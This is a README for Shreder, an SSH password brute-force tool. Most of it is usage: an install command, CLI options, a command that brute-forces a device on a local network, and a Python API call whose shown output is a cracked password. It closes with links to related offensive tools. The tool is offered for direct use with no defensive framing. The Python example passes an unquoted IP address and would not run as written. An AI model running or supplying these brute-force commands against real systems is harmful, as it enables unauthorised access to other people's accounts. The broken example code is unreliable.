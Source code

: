# Shreder

Shreder is a powerful multi-threaded SSH protocol password bruteforce tool.

## Features

* Very fast password guessing, just one password in `0.1` second.
* Optimized for big password lists, Shreder tries 1000 passwords in `1` minute and `40` seconds.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/Shreder
```

## Basic usage

To use Shreder just type `shreder` in your terminal.

```
usage: shreder [-h] [-p PORT] [-u USERNAME] [-l LIST] target

Shreder is a powerful multi-threaded SSH protocol password bruteforce tool.

positional arguments:
  target

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  SSH port.
  -u USERNAME, --username USERNAME
                        SSH username.
  -l LIST, --list LIST  Passwords list.
```

### Examples

Let's bruteforce my device just for fun.

```shell
shreder 192.168.2.109 -u mobile -l passwords.txt
```

## Shreder API

Shreder also has their own Python API that can be invoked by importing Shreder to your code:

```python
from shreder import Shreder
```

### Basic functions

There are all Shreder basic functions that can be used to bruteforce specified device.

* `connect(host, port, username, password)` - Connect specified defice by network address.
* `brute(host, port, username, dictionary)` - Bruteforce device with list of passwords.

### Examples

```python
from shreder import Shreder

shreder = Shreder()

password = shreder.brute(192.168.2.109, 22, 'mobile', 'passwords.txt')
print(f"Password: {password}")
```

**output:**

```shell
[*] Processing... \ | Passwords tried: 8/8
[*] Cooling down after process...
Password: alpine
```

## Other tools

<p>
    <a href="https://github.com/EntySec/Ghost">
        <img src="https://img.shields.io/badge/EntySec-%20Ghost-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/EntySec-%20HatVenom-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/RomBuster">
        <img src="https://img.shields.io/badge/EntySec-%20RomBuster-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatSploit">
        <img src="https://img.shields.io/badge/EntySec-%20HatSploit-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/EntySec-%20CamOver-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/EntySec-%20CamRaptor-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/membrane">
        <img src="https://img.shields.io/badge/EntySec-%20membrane-f34c79.svg">
    </a>
    <a href="https://github.com/EntySec/pwny">
        <img src="https://img.shields.io/badge/EntySec-%20pwny-448eff.svg">
    </a>
</p>
